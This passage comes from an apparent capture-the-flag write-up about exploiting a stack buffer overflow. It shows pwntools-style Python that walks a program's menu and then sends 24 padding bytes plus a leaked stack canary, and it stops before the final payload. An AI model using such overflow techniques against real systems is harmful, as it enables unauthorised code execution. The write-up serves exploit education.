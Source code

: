 ### Exploit

Now that we have defeated the stack canary and found the `libc` address, we need to exploit the Buffer Overflow. We can try to make it work on my local machine before connecting to the server.

First, let's create some code that will trigger the `warning` function.&#x20;

```python
def shell():
	for i in range (10):
		p.recv()
		p.sendline(b"1")
		p.recv()
		p.sendline(b"1")

	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(b'2')
	p.recv()
	p.sendline(b'Red')
	p.recv()
	# send your payload here!
```

We know that the `warning` variable takes a string of input length 24, so let's send that and then the canary:

```python
def shell(canary):
	for i in range (10):
		p.recv()
		p.sendline(b"1")
		p.recv()
		p.sendline(b"1")

	p.recv()
	p.sendline(b'1')
	p.recv()
	p.sendline(b'2')
	p.recv()
	p.sendline(b'Red')
	p.recv()
	
	buffer = b'A' * 24
	buffer += p64(canary)
	p.sendline(buffer)
```

This does not trigger the stack smashing error we found earlier, indicating the canary found works:

<figure><img src="../../.gitbook/assets/image (411).png" alt=""><figcaption></figcaption></figure>
